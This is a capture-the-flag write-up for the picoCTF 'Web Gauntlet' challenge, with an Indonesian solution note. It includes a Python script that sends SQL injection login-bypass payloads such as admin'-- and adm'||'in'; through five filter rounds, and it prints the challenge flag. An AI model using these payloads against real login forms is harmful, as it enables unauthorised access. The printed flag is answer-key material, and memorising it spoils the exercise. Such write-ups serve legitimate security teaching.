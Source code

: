 <h1>Web Gauntlet</h1>
<h3>Description</h3>
<pre>
Can you beat the filters? Log in as admin <a href='http://jupiter.challenges.picoctf.org:44979/'>Challe</a> and <a href='http://jupiter.challenges.picoctf.org:44979/filter.php'>filter</a>
</pre>
<h3>Solution</h3>
<p>Selesaikan seluruh SQL injection round 1 hingga 5(clue ada di filter), dan flag pada page filter juga</p>

```python3
import requests

url = 'http://jupiter.challenges.picoctf.org:44979/'
s = requests.Session()
data = {'user':"admin'-- ",'pass':"123"}
res = s.post(url,data=data).text
if "Round 2" in res:
    data = {'user':"admin';",'pass':"123"}
    res = s.post(url,data=data).text
    if "Round 3" in res:
        data = {'user':"admin';",'pass':"123"}
        res = s.post(url,data=data).text
        if "Round 4" in res:
            data = {'user':"adm'||'in';",'pass':"123"}
            res = s.post(url,data=data).text
            if "Round 5" in res:
                data = {'user':"adm'||'in';",'pass':"123"}
                res = s.post(url,data=data).text
                if "You won!" in res:
                    res = s.get(url+'filter.php').text
                    start = 'picoCTF{'
                    end = '}'
                    index_start = res[res.find(start):]
                    index_end = index_start.find(end)
                    print(index_start[:index_end+1])
                
```
<h3>Flag</h3>
<pre>
picoCTF{y0u_m4d3_1t_16f769e719ab9d3e310fd13dc1262ee1}
</pre>
